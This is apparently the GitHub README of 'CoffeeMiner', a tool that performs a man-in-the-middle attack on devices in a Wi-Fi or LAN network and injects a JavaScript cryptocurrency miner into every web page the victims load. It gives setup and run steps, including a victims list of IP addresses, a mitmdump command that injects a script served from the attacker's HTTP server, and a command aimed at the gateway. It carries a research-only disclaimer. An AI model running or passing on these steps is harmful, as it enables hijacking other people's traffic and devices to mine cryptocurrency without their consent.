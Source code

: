 # CoffeeMiner

Collaborative (mitm) cryptocurrency mining pool in wifi networks

**Warning: this project is for academic/research purposes only.**


## Concept
- Performs a MITM attack to all selected victims
- Injects a js script in all the HTML pages requested by the victims
- The js script injected contains a cryptocurrency miner
- All the devices victims connected to the Lan network, will be mining for the CoffeeMiner


## Use
- install.sh
```
bash install.sh
```
- edit victims.txt with one IP per line
- edit coffeeMiner.py, line 28, with the coffeeMiner httpserver IP:
```py
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
- run.py
```
python3 coffeeMiner.py ipgateway
```

![network](https://raw.githubusercontent.com/arnaucode/coffeeMiner/master/network.png "network")


A complete instructions for academic scenario can be found in https://github.com/arnaucode/coffeeMiner/blob/master/virtualbox_scenario_instructions.md
